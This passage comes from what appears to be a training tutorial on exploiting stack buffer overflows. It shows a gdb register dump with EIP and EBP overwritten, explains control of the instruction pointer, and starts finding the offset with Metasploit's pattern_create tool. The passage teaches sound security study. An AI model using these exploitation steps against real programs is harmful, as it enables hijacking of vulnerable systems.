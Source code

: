 ```shell
(gdb) info registers

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP overwritten
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP overwritten
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99

```

If we want to imagine the process visually, then the process looks something like this.

#### Buffer

![Diagram of memory layout showing sections: .text, .data, .bss, Heap, and Stack. Memory addresses range from 0x00000000 to 0xFFFFFFFF. An arrow indicates a buffer overflow from strcpy() in the Stack section, affecting ESP, EBP, and EIP registers.](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_2.png)

This means that we have to write access to the EIP. This, in turn, allows specifying to which memory address the EIP should jump. However, to manipulate the register, we need an exact number of U's up to the EIP so that the following 4 bytes can be overwritten with our desired memory address.

* * *

## Determine The Offset

The offset is used to determine how many bytes are needed to overwrite the buffer and how much space we have around our shellcode.

Shellcode is a program code that contains instructions for an operation that we want the CPU to perform. The manual creation of the shellcode will be discussed in more detail in other modules. But to save some time first, we use the Metasploit Framework (MSF) that offers a Ruby script called “pattern\_create” that can help us determine the exact number of bytes to reach the EIP. It creates a unique string based on the length of bytes you specify to help determine the offset.

#### Create Pattern

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9

```
